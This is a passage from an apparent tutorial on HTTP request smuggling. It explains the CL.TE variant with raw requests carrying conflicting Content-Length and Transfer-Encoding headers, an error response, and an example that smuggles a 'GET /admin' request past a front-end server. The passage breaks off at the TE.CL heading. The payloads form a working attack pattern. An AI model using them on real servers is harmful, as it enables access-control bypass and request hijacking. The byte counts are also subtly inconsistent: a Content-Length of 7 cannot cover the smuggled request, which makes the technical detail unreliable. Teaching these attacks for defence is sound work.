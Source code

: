 ### **CL.TE** ###

In this attack, the front-end server uses the "Content-Length" header, and the backend server uses the "Transfer-Encoding" header.

```
POST / HTTP/1.1
Host: unstable.com
Content-Length: 7
Transfer-Encoding: chunked

0

asdasd
```

1. The front-end server will process the "Content-Length" header and will determine the length "7" up to the "asdasd".
2. The backend server will process the request by prioritizing the "Transfer-Encoding" header and sees the message body is chunked encoded. It will process the first chunk which is "0" and will terminate the request. The remaining body "asdasd" will remain unprocessed and will be used as part of the next pipeline HTTP request.

#### **Response** ####

```
HTTP/1.1 404 Not Found
Connection: Close
Content-Length: 0

"Unrecognized method asdasdPOST"
```

#### **Example** ####

```
POST / HTTP/1.1
Host: unstable.com
Content-Length: 7
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: unstable.com
Content-Length: 7

asdasd
```

### **TE.CL** ###

As of now, you might have guessed that the front-end server will use "Transfer-Encoding" and the backend server will use the "Content-Length" header.
